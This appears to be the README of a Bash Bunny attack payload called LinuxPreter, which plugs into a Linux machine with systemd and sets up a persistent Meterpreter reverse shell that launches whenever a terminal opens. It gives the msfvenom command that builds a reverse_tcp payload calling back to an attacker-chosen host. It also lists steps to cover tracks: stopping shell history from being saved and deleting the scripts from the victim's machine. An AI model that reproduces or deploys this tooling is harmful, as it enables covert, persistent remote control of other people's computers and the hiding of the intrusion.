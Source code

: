 ## About:
* Title: LinuxPreter
* Description: Injects meterpreter payload and makes it persistent.
* AUTHOR: drapl0n
* Version: 1.0
* Category: Remote Access
* Target: Unix-like operating systems with systemd.
* Attackmodes: HID, Storage

## LinuxPreter injects meterpreter payload, make it persistent and triggers payload on launch of terminal/shell.

### Workflow:
* Keeping tracks clear by preventing storage of history.
* Fetching BashBunny's block device and mounting it.
* Transfering payload script and payload itself. 
* Deleting scripts from victims machine and unmounting bunny. 

### Create Meterpreter payload:
* ```msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP ADDRESS> LPORT=<PORT NO> -f elf -o sysHandle.bin```
* NOTE: Only change IP address and Port number in the above command.

### LED Status:
* `SETUP`   : MAGENTA
* `ATTACK`  : YELLOW
* `FINISH`  : GREEN

### Directory Structure of payload components:
| FileName       | Directory                     |
| -------------- | ----------------------------- |
| payload.txt    | /payload/switch1/             |
| payload.sh     | /payload/                     |
| sysHandle.bin  | /tools/                       |


#### Support me if you like my work:
* https://twitter.com/drapl0n  
